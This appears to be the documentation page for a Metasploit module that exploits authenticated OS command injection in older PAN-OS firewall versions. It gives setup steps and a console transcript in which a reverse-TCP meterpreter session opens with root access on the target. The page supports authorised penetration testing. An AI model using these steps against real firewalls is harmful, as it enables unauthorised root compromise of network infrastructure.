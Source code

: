This module exploits an authenticated OS Command Injection vulnerability in PAN-OS versions: <10.0.1, <9.1.4 and <9.0.10

## Vulnerable Application

A Palo Alto Firewall demo can be requested at the following [link](https://www.paloaltonetworks.com/company/request-demo)

## Verification Steps

1. Install the application
1. Start msfconsole
1. Do: `use exploit/linux/http/panos_auth_rce`
1. Set the `RHOST`, `USERNAME`, and `PASSWORD` options
1. Run the module 
1. Receive a meterpreter session

## Scenario: PAN-OS 10.0.0

```
msf6 > use linux/http/panos_auth_rce
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/http/panos_auth_rce) > set rhosts 192.168.2.196
rhosts => 192.168.2.196
msf6 exploit(linux/http/panos_auth_rce) > set USERNAME admin
USERNAME => admin
msf6 exploit(linux/http/panos_auth_rce) > set PASSWORD N0tpassword!
PASSWORD => N0tpassword!
msf6 exploit(linux/http/panos_auth_rce) > run

[*] Started reverse TCP handler on 192.168.2.114:4444
[*] Authenticating...
[+] Successfully obtained api key
[*] Exploiting...
[*] Sending stage (3020772 bytes) to 192.168.2.196
[*] Meterpreter session 1 opened (192.168.2.114:4444 -> 192.168.2.196:51132) at 2022-08-16 09:01:47 -0400
[*] Command Stager progress - 100.00% done (1326/1326 bytes)
meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : PA-VM-10-0-0.home
OS           : Red Hat  (Linux 3.10.0-957.21.3.10.pan.x86_64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```


